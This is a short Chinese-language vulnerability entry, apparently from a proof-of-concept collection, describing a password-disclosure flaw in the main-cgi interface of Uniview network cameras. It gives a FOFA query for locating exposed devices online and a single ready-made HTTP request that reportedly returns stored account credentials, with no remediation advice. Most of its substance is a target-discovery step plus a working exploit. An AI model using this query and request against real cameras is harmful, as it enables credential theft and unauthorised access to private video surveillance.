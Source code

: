 # 浙江宇视科技视频监控main-cgi密码泄露漏洞

### 一、漏洞描述
<font style="color:rgb(62, 62, 62);">宇视(Uniview)高清网络摄像机是一种高性能的网络摄像机，它可以通过网络进行视频传输和监控。该摄像机采用先进的视频技术，具有高清晰度、低照度、宽动态等特点，能够提供高质量的视频图像。该系统main-cgi接口处存在信息泄露漏洞，可以获取账号密码</font>

### 二、影响版本
uniview-视频监控

### 三、资产测绘
fofa：app="uniview-视频监控"

特征：

![1708565407817-95f2e1e3-c9e8-4be1-92cd-e92186ec8b04.png](./img/-6QP_htt3rwYLJX_/1708565407817-95f2e1e3-c9e8-4be1-92cd-e92186ec8b04-838726.png)

### 四、漏洞复现
```plain
/cgi-bin/main-cgi?json={"cmd":255,"szUserName":"","u32UserLoginHandle":-1}
```

![1708565517673-5422b422-875e-4092-a261-6e86a1419ec6.png](./img/-6QP_htt3rwYLJX_/1708565517673-5422b422-875e-4092-a261-6e86a1419ec6-688787.png)![1708565528046-ba2ea20d-a3b0-4d49-9a3f-7c4ac24001ac.png](./img/-6QP_htt3rwYLJX_/1708565528046-ba2ea20d-a3b0-4d49-9a3f-7c4ac24001ac-355015.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/bky3gsuwp052gmtn>